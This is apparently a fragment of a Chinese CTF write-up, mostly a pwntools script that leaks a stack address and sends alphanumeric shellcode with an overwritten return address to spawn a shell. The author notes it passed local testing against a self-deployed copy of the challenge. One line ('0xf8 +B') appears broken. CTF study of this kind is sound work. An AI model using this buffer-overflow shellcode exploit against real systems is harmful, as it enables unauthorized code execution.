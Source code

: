```sh



#gdb.attach(io)
#05 1F 3B 7D 05 52 81 2C 9F 0D



io.send(b'A'*0xe8)

rcu(b'A'*0xe8)

addr = u32(rcv(4))

success("Leaked Address: " + hex(addr))

#sh = b"hffffk4diFkDqj02Dqk0D1AuEE2O0T2w0Z0U0i0F3r180c7o023p3A4K4s3p4A1n0X335o352M0T1k0u2j120R2x5M4R0Y1P0e2s4x4O0s4U4s0Y07064t8o4B0r3m3D0x2r3Y3U092K4x3h0b2Z7M0W0F2E1l1M0R001o3I3C384r0s" 
sh = b"hffffk4diFkDqj02Dqk0D1AuEE2O0T2w0Z0U0i0F3r180c7o023p3A4K4s3p4A1n0X7L060n010T1k0u2j120R2x5M4R0Y1P0e2s4x4O0s4U4w2F020o4w4t5p2n3m3D0x2r3Y3U092K4x3h0b2Z7M0W0F2E1l1M0R001o3I3C384r0s"

payload = sh
padding = 0xf8 +B
payload = payload.ljust(padding,b'A') 
payload += flat([addr,addr])
#gdb.attach(io)
io.sendline(payload)

io.interactive()

```

本地测试通过

![image](assets/image-20250406185246-9luewxh.png)

由于此时比赛结束，我只能把它的题目自己部署，自己打了。

线上测试：
